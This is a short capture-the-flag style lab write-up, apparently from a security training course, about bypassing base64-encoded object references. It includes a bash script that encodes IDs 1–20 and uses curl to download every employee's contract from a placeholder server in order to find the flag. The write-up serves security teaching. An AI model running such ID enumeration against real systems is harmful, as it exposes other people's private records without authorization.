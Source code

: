 # Bypassing Encoded References

#### Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In this exercise we must look for the flag in the Contracts page. When we download a contract we can see that we intercept a GET Request. The `contract` parameter has the value `MQ==`, which is the base64 encoded value for `1`.

Since this looks a pretty straight forward encoding method we can automatize the download process with a bash script:

{% code overflow="wrap" %}
```bash
#!/bin/bash

for i in {1..20}; do
    for hash in $(echo -n $i | base64 -w 0 | tr -d ' -'); do
        curl -sOJ -X GET "http://SERVER_IP:SERVER_PORT/download.php?contract=$hash"
    done
done
```
{% endcode %}

After execute the script let's list all the files downloaded with `ls -l`.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can clearly see that one of the files stands out.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got the flag!
